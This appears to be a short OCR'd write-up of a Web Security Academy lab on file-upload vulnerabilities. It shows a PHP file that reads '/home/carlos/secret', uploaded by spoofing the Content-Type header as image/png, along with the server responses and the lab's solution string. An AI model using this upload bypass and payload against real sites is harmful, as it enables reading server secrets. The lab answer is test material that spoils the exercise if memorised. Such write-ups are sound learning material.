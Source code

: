 ```php
"pull it out the contents of the file '/home/carlos/secret'"
```

1. **Start:**

create file:

```php
'exploit.php'
```

content:

```php
'<?php echo file_get_contents('/home/carlos/secret'); ?>'
```

2. **Upload file successfully via site upload functionality**
   (https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/my-account/avatar)

   test image upload url:
   (https://0aa500b80367987681ca710f007f0010.web-security-academy.net/files/avatars/work1.jpg)

**Go to file location ( right click thumbnail and choose 'open image in new window')**
(https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/files/avatars/exploit.php)

error message

```php
Sorry, file type 'application/octet-stream' is not allowed Only "image/jpeg" and 'image/png' are allowed Sorry, there was an error uploading your file.
```

response:

```php
'HTTP/2 403 Forbidden'
```

change Content-Type to => :

```php
'Content-Type: image/png'
```

response

```php
'HTTP/2 200 OK'
'The file avatars/exploit.php has been uploaded.'
```

3. **Go to file location _find the picture will be empty_( right click thumbnail and choose 'open image in new window')**

(https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/files/avatars/exploit.php)
find the picture will be empty

4. **Copy string and paste in _submit button_ on lab**

```php
'0RmXM4Rgvywsjqy9yZBN0qhbBj9pcLKB'
```
